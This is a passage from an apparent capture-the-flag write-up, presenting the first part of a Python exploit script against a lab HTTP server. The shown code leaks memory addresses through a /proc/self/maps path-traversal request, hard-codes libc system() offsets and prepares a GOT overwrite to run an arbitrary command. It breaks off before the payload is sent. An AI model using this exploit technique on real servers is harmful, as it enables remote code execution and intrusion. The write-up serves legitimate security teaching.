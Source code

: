 ### Script It

Now I'll build my script. It's difficult to show this kind of thing step
by step, but know that this was built up little bit by bit and
eventually polished to this. I'll walk through it after the code:



      1 #!/usr/bin/env python3
      2 import base64
      3 import fcntl
      4 import requests
      5 import socket
      6 import struct
      7 import sys
      8 import urllib.parse
      9 
     10 
     11 def pad(s):
     12     return s+b"."*(1024-len(s))
     13 
     14 
     15 def get_memory_base_addresses(ip, port=9999):
     16     r = requests.get(f'http://{ip}:{port}//proc/self/maps', headers={"Range": "bytes=0-1000000"})
     17     libc_base = int([x for x in r.text.split('\n') if 'libc-' in x][0].split('-')[0], 16)
     18     httpserver_base = int([x for x in r.text.split('\n') if 'httpserver' in x][0].split('-')[0], 16)
     19     return (httpserver_base, libc_base)
     20 
     21 
     22 if len(sys.argv) != 3:
     23     print(f'[-] Usage: {sys.argv[0]} [target ip] [command]')
     24     sys.exit()
     25 
     26 target_ip = sys.argv[1]
     27 cmd = sys.argv[2]
     28 
     29 # readelf -s libc-2.27.so_ | grep " system@@GLIBC"
     30 #  1510: 0003cd10    55 FUNC    WEAK   DEFAULT   13 system@@GLIBC_2.0
     31 # readelf -s /usr/lib/i386-linux-gnu/libc-2.28.so | grep " system@@GLIBC"                   
     32 #  1525: 0003ec00    55 FUNC    WEAK   DEFAULT   13 system@@GLIBC_2.0  
     33 system_offsets = {'10.10.10.148': int('3cd10', 16),
     34                   '127.0.0.1':    int('3ec00', 16)}
     35 
     36 try:
     37     system_offset = system_offsets[target_ip]
     38 except KeyError:
     39     print(f"[-] Invalid target: {target_ip}")
     40     sys.exit(1)
     41 
     42 main_base, libc_base = get_memory_base_addresses(ip=target_ip)
     43 print(f"[+] Main base address:   0x{main_base:08x}")
     44 print(f"[+] libc base address:   0x{libc_base:08x}")
     45 
     46 puts_got = main_base + 0x5048
     47 print(f"[+] GOT table for puts:  0x{puts_got:08x}")
     48 
     49 system = libc_base + system_offset
     50 print(f"[+] system address:      0x{system:08x}")
     51 system_lower = system % pow(2,16)
     52 system_upper = system // pow(2,16)
     53 print(f'[+] system lower:            0x{system_lower:04x}')
     54 print(f'[+] system upper:        0x{system_upper:04x}')
     55 